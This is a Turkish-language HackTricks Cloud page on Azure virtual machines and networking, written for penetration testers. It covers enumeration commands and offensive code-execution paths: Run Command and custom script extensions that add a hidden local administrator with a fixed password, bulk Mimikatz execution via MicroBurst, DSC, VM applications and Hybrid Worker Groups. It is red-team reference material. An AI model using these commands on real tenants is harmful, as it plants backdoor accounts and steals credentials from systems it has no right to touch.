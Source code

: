 # Az - Sanal Makineler & Ağ

{% hint style="success" %}
AWS Hacking'i öğrenin ve pratik yapın:<img src="../../../../.gitbook/assets/image (1).png" alt="" data-size="line">[**HackTricks Training AWS Red Team Expert (ARTE)**](https://training.hacktricks.xyz/courses/arte)<img src="../../../../.gitbook/assets/image (1).png" alt="" data-size="line">\
GCP Hacking'i öğrenin ve pratik yapın: <img src="../../../../.gitbook/assets/image (2).png" alt="" data-size="line">[**HackTricks Training GCP Red Team Expert (GRTE)**<img src="../../../../.gitbook/assets/image (2).png" alt="" data-size="line">](https://training.hacktricks.xyz/courses/grte)

<details>

<summary>HackTricks'i Destekleyin</summary>

* [**abonelik planlarını**](https://github.com/sponsors/carlospolop) kontrol edin!
* **💬 [**Discord grubuna**](https://discord.gg/hRep4RUj7f) veya [**telegram grubuna**](https://t.me/peass) katılın ya da **Twitter**'da **bizi takip edin** 🐦 [**@hacktricks\_live**](https://twitter.com/hacktricks\_live)**.**
* **Hacking ipuçlarını paylaşmak için** [**HackTricks**](https://github.com/carlospolop/hacktricks) ve [**HackTricks Cloud**](https://github.com/carlospolop/hacktricks-cloud) github reposuna PR gönderin.

</details>
{% endhint %}

## Temel bilgiler

[Belgelerden:](https://learn.microsoft.com/en-us/azure/virtual-machines/overview) Azure sanal makineleri, Azure'un sunduğu birkaç tür [talep üzerine, ölçeklenebilir hesaplama kaynaklarından](https://learn.microsoft.com/en-us/azure/architecture/guide/technology-choices/compute-decision-tree) biridir. Genellikle, diğer seçeneklerin sunduğundan daha fazla kontrol gerektiğinde bir sanal makine seçersiniz. Bu makale, bir sanal makine oluşturmadan önce dikkate almanız gerekenler, nasıl oluşturulacağı ve nasıl yönetileceği hakkında bilgi verir.

## Azure Ağ Bilgileri

Azure ağları **farklı varlıklar ve bunları yapılandırma yolları** içerir. Farklı Azure ağ varlıklarının kısa **tanımları,** **örnekleri** ve **enumeration** komutlarını şu belgede bulabilirsiniz:

{% content-ref url="az-azure-network.md" %}
[az-azure-network.md](az-azure-network.md)
{% endcontent-ref %}

## Azure Bastion

**Azure Bastion**, Azure portalı üzerinden SSL aracılığıyla güvenli, tamamen yönetilen RDP (Uzak Masaüstü Protokolü) ve SSH (Güvenli Kabuk) erişim çözümü sunar. Azure Sanal Ağı içinde entegre edilmiştir ve özel IP'ler kullanarak VM'lere RDP ve SSH bağlantısı sağlar, bu da genel IP'lere ihtiyaç duymadan yapılmasını mümkün kılar. Bu, genel IP atamaları ve VM erişimi için NSG kural yapılandırmalarını içeren geleneksel yöntemlere göre daha güvenli ve daha uygun bir alternatif sunar. Geliştiriciler ve BT personeli, Azure portalından web tarayıcılarını kullanarak VM'lere güvenli bir şekilde erişebilir, bu da geliştirme ve test ortamları için süreci kolaylaştırır.

Aboneliğinizdeki tüm Azure Bastion Host'larını listelemek için aşağıdaki komutu kullanabilirsiniz:

{% code overflow="wrap" %}
```bash
az network bastion list --query "[].{name:name, resourceGroup:resourceGrou, location:location}" -o table
```
{% endcode %}

## VM Sayımı
```powershell
# Get readable VMs
Get-AzVM | fl
# Lis running VMs
Get-AzureRmVM -status | where {$_.PowerState -EQ "VM running"} | select ResourceGroupName,Name
Get-AzVM -Name <name> -ResourceGroupName <res_group_name> | fl *
Get-AzVM -Name <name> -ResourceGroupName <res_group_name> | select -ExpandProperty NetworkProfile

# Get iface and IP address
Get-AzNetworkInterface -Name <interface_name>
Get-AzPublicIpAddress -Name <iface_public_ip_id>

#Get installed extensions
Get-AzVMExtension -ResourceGroupName <res_group_name> -VMName <name>

Get-AzVM | select -ExpandProperty NetworkProfile # Get name of network connector of VM
Get-AzNetworkInterface -Name <name> # Get info of network connector (like IP)
```
## **VM'de komut çalıştırma**

### **VM'de AAD Girişi**

AzureAD üzerinden kimlik doğrulaması yapılmış kullanıcılara erişim izni vermek mümkündür. Örneğin, bir **linux VM**'ye erişmeye çalışırken: `ssh username@azure-corp.com@1.1.1.1` (giriş yaparken kullanılan azurecorp ile **e-posta** kullanmak önemlidir) şu hatayı alabilirsiniz: 

{% code overflow="wrap" %}
```
(username@azure-corp.com@1.1.1.1) This preview capability is not for production use. When you sign in, verify the name of the app on the sign-in screen is "Azure Linux VM Sign-in" and the IP address of the target VM is correct.

To sign in, use a web browser to open the page https://microsoft.com/devicelogin and enter the code DT4PNSTGR to authenticate. Press ENTER when ready.
```
{% endcode %}

Sadece **bu talimatları takip edin** [https://microsoft.com/devicelogin](https://microsoft.com/devicelogin) adresine giderek ve kodu belirterek, e-posta ve şifreyi kimlik bilgileri olarak kullanarak SSH ile bağlanabileceksiniz (eğer o kullanıcının bunu yapacak yeterli izinleri varsa: `Virtual Machine Administrator Login` veya `Virtual Machine User Login` rolü).

### **Komut Çalıştır**
```powershell
# The permission allowing this is Microsoft.Compute/virtualMachines/runCommand/action
Invoke-AzVMRunCommand -ScriptPath .\adduser.ps1 -CommandId 'RunPowerShellScript' -VMName 'juastavm' -ResourceGroupName 'Research' –Verbose
## Another way
Invoke-AzureRmVMRunCommand -ScriptPath .\adduser.ps1 -CommandId 'RunPowerShellScript' -VMName 'juastavm' -ResourceGroupName 'Research' –Verbose

# Content of the script
$passwd = ConvertTo-SecureString "Welcome2022!" -AsPlainText -Force
New-LocalUser -Name new_user -Password $passwd
Add-LocalGroupMember -Group Administrators -Member new_user
```

```powershell
# Try to run in every machine
Import-module MicroBurst.psm1
Invoke-AzureRmVMBulkCMD -Script Mimikatz.ps1 -Verbose -output Output.txt
```
### **Özel Script Uzantısını Çalıştır**

Azure sanal makine (VM) uzantıları, **Azure VM'lerinde** dağıtım sonrası yapılandırma ve otomasyon **görevleri** sağlayan **küçük uygulamalardır**. Örneğin, bir sanal makinenin yazılım kurulumu, antivirüs koruması veya içinde bir script çalıştırma yeteneğine ihtiyacı varsa, bir VM uzantısı kullanabilirsiniz.

Bu nedenle, yazma erişiminiz varsa, rastgele kod çalıştırabilirsiniz:
```powershell
# Microsoft.Compute/virtualMachines/extensions/write
Set-AzVMExtension -ResourceGroupName "Research" -ExtensionName "ExecCmd" -VMName "infradminsrv" -Location "Germany West Central" -Publisher Microsoft.Compute -ExtensionType CustomScriptExtension -TypeHandlerVersion 1.8 -SettingString '{"commandToExecute":"powershell net users new_user Welcome2022. /add /Y; net localgroup administrators new_user /add"}'
```
### DesiredConfigurationState (DSC)

DesiredConfigurationState (DSC), kod aracılığıyla bir ana bilgisayarı kurmak için kullanılan Ansible'a benzer bir PowerShell aracıdır. DSC, belirli yapılandırma dosyalarının yüklenmesine olanak tanıyarak Azure ile entegre olur. Bu dosyaların katı bir sözdizimine uyması gerekmektedir. Özellikle, Azure'daki DSC uzantısı, belirli biçimlendirme kriterlerini karşılayan dosyalardan komutları çalıştırabilir; bu, sağlanan şekilde gösterilmiştir.

Bu komutların yürütülmesi, Az PowerShell'deki [**`Publish-AzVMDscConfiguration`**](https://docs.microsoft.com/en-us/powershell/module/az.compute/publish-azvmdscconfiguration?view=azps-7.5.0) işlevi ile kolaylaştırılır. Gereksinimler arasında tanımlı bir işlev içeren bir **.PS1** dosyası ve dosyanın **.zip** dosyasına sıkıştırılması yer alır. Sözdizimi DSC için doğru olmasa bile, kod yine de çalışacaktır. Ancak, uzantı yürütme durumunu "başarısızlık" olarak işaretleyecek ve komuttan hiçbir çıktı görünmeyecektir çünkü durum, başarısızlık mesajı tarafından üzerine yazılacaktır.

### VM Uygulama Tanımları

VM Uygulama Tanımları, sürümlü uygulamaların bir Azure VM'ye tekrarlanabilir bir şekilde dağıtılmasına olanak tanır. Bu kaynak, uygulamaların VM'ler arasında dağıtımını ve güncellenmesini destekler. Bunu ayarlamak için, Az PowerShell'de **`New-AzGalleryApplication`** ve **`New-AzGalleryApplicationVersion`** gibi komutları içeren birkaç adım gereklidir.

Bu yöntemle uygulamaların veya komutların yürütülmesi, bir uygulama bir VM'ye uygulandığında otomatik olarak kurulan **"VMAppExtension"** aracılığıyla gerçekleştirilir. Uzantı, dosyayı belirtilen URI'den alır ve dosyayı tam olarak uygulama adıyla, uzantı olmadan adlandırır. Dosyanın doğru bir şekilde yürütülmesi için, REST API çağrısındaki "ManageActions" alanının dosyayı uygun uzantıyla yeniden adlandıracak şekilde yapılandırılması gerekir. Bu yöntemin kurulumu tamamlandığında, sağlanan şekilde gösterilen yapıya benzeyecektir.

Ancak, bu yürütme yöntemi nispeten yavaştır; bir uygulama veya komutun yürütülmesi yaklaşık 3-4 dakika sürer. Bu süreçle ilgili dosyalar belirli dizinlerde saklanır (`C:\Packages\Plugins\Microsoft.CPlat.Core.VMApplicationManagerWindows\1.0.4\Downloads\` uygulama kopyası için ve `C:\Packages\Plugins\Microsoft.CPlat.Core.VMApplicationManagerWindows\1.0.4\Status\` yürütme durumu için).

Her iki teknik de Azure ortamlarında komutları yürütme ve uygulamaları dağıtma konusunda benzersiz yollar sunar; her birinin kendine özgü gereksinimleri, adımları ve dikkate alınması gereken hususları vardır.

### Azure'daki Hibrit Çalışan Grupları (HWG'ler)

[**Hibrit Çalışan Grupları (HWG'ler)**](https://docs.microsoft.com/en-us/azure/automation/automation-hybrid-runbook-worker), bir Otomasyon Hesabında yapılandırılan Runbook'ların, belirlenen HWG'nin bir parçası olan bir Azure Sanal Makinesi (VM) üzerinde yürütülmesine olanak tanıyan bir Azure özelliğidir. Bu yürütme, VM'ye kurulan bir uzantı aracılığıyla kolaylaştırılır ve Runbook kodunu VM'ye dağıtır. Bu sürecin önemli bir yönü, gerçek kimlik bilgilerin yürütmede bir faktör olmamasıdır çünkü kod, yükseltilmiş ayrıcalıklarla, özellikle **SYSTEM** veya root olarak çalışır; bu, sağlanan şekilde gösterilmiştir.

Windows 10 VM'lerini kullananlar için kritik bir detay, Runbook için PowerShell sürümünü belirtme gerekliliğidir. PowerShell Sürüm 5.1 olarak çalışacak şekilde ayarlanmalıdır; 7.1 yerine. Bu gereklilik, PowerShell 7.1'in bu VM'lerde varsayılan olarak yüklü olmamasından kaynaklanmaktadır; bu nedenle 7.1 sürümü belirtilirse, betik yürütme başarısız olur.

Azure'ın bu özelliği, hibrit ortamlarda görevleri otomatikleştirmek ve yönetmek için sağlam bir yöntem sunar ve Azure VM'leri üzerinde merkezi yönetim ve görev yürütme olanağı sağlar.

## Referanslar

* [https://learn.microsoft.com/en-us/azure/virtual-machines/overview](https://learn.microsoft.com/en-us/azure/virtual-machines/overview)
* [https://hausec.com/2022/05/04/azure-virtual-machine-execution-techniques/](https://hausec.com/2022/05/04/azure-virtual-machine-execution-techniques/)

{% hint style="success" %}
Learn & practice AWS Hacking:<img src="../../../../.gitbook/assets/image (1).png" alt="" data-size="line">[**HackTricks Training AWS Red Team Expert (ARTE)**](https://training.hacktricks.xyz/courses/arte)<img src="../../../../.gitbook/assets/image (1).png" alt="" data-size="line">\
Learn & practice GCP Hacking: <img src="../../../../.gitbook/assets/image (2).png" alt="" data-size="line">[**HackTricks Training GCP Red Team Expert (GRTE)**<img src="../../../../.gitbook/assets/image (2).png" alt="" data-size="line">](https://training.hacktricks.xyz/courses/grte)

<details>

<summary>Support HackTricks</summary>

* Check the [**subscription plans**](https://github.com/sponsors/carlospolop)!
* **Join the** 💬 [**Discord group**](https://discord.gg/hRep4RUj7f) or the [**telegram group**](https://t.me/peass) or **follow** us on **Twitter** 🐦 [**@hacktricks\_live**](https://twitter.com/hacktricks\_live)**.**
* **Share hacking tricks by submitting PRs to the** [**HackTricks**](https://github.com/carlospolop/hacktricks) and [**HackTricks Cloud**](https://github.com/carlospolop/hacktricks-cloud) github repos.

</details>
{% endhint %}
